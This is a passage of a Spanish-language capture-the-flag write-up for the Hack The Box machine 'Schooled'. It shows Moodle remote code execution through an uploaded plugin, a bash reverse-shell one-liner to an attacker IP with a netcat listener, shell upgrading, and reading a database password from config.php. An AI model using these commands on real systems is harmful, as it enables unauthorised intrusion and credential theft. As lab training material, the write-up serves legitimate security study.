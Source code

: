 - Ahora en `Plugins` vamos a subir el .zip que nos dicen en el POC.

- Después de subirlo tenemos RCE.

```bash
❯ curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
uid=80(www) gid=80(www) groups=80(www)
```

- Ahora nos ponemos en escucha.

```bash
❯ nc -nlvp 443
```

- Enviamos la shell.

```bash
❯ curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'" http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php
```

- Recibimos la shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.234] 52493
bash: cannot set terminal process group (1132): Can't assign requested address
bash: no job control in this shell
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ whoami
www
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ 
```

## Shell as  jamie

```bash
[www@Schooled /]$ /usr/local/bin/python3 -c 'import pty;pty.spawn("bash")'
/usr/local/bin/python3 -c 'import pty;pty.spawn("bash")'
[www@Schooled /]$ ^Z
zsh: suspended  nc -nlvp 443
                                                       
❯ stty raw -echo;fg
reset xterm
ENTER
```

- Vemos la contraseña para la base de datos.

```bash
[www@Schooled /usr/local/www/apache24/data/moodle]$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
```
